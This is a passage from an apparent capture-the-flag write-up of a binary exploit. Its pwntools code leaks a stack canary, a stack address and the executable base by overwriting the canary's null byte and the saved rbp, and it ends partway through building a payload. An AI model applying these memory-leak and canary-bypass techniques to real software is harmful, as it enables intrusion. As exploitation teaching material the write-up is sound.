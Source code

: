 ### Stage 2: Leak canary and stack address ###

Leak canary is necessary but is stack needed? Yeah of course because maybe if we need to leak saved rip of a binary function, we need to overwrite canary and saved rbp to make sure no null byte is inserted between input buffer and saved rip. After that, we need to recover canary and saved rbp so we need to know what is the address of saved rbp.

```python
p.sendlineafter(b'choice: ', b'2')
if args.LOCAL:
	t1.close()

with open('data/1MB', 'rb') as f:
	datas = f.read()

# Offset 0x108 will concatenate buffer with canary
# But due to null byte at LSB of canary so we overwrite that
# null byte to a byte not null so puts() will print canary out
offset = 0x109
datas = datas[offset:]
p.recvuntil(b'read: ')
p.sendline(b'4')
p.recvuntil(b'read?')
p.sendline(f'{offset}'.encode())

output = p.recvuntil(b'\nHow many bytes to read?', drop=True)
canary = u64(output[offset-1:offset-1+8]) & 0xffffffffffffff00
stack_leak = u64(output[offset-1+8:] + b'\0\0')
log.info("Canary: " + hex(canary))
log.info("stack_leak: " + hex(stack_leak))

# Recover the null byte of canary
for size in findbyte(b'\0', datas, offset):
	datas = datas[size:]
	p.sendline(f'{size}'.encode())
	p.recvuntil(b'\nHow many bytes to read?', drop=True)
p.sendline('-1'.encode())
```

### Stage 3: Leak exe address ###

Let's get exe address leak:

```python
with open('data/1MB', 'rb') as f:
	datas = f.read()

# Overwrite canary and saved rbp to leak saved rip which is exe address
offset = 0x118
datas = datas[offset:]
p.sendlineafter(b'choice: ', b'2')
p.recvuntil(b'read: ')
p.sendline(b'4')
p.recvuntil(b'read?')
p.sendline(f'{offset}'.encode())

output = p.recvuntil(b'\nHow many bytes to read?', drop=True)
exe_leak = u64(output[offset:offset+6] + b'\0\0')
exe.address = exe_leak - 0x247c
log.info("Exe leak: " + hex(exe_leak))
log.info("Exe base: " + hex(exe.address))

# Recover canary and saved rbp
payload = flat(
	canary, stack_leak,
```